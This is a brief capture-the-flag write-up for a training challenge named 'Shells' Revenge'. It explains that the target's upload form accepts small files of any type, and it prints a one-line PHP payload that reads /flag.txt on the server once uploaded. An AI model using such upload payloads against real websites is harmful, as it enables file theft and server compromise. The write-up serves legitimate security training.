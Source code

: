 # Shells' Revenge

[> *Challenge (500)*](https://training.olicyber.it/challenges#challenge-52)

## Solution

_(flag in `/flag.txt`)_

We can upload any kind of file but we have a size limit (i think it's 100 bytes).

So we can upload any php file but has to be small.

```php
<?=@file_get_contents("/flag.txt");
```

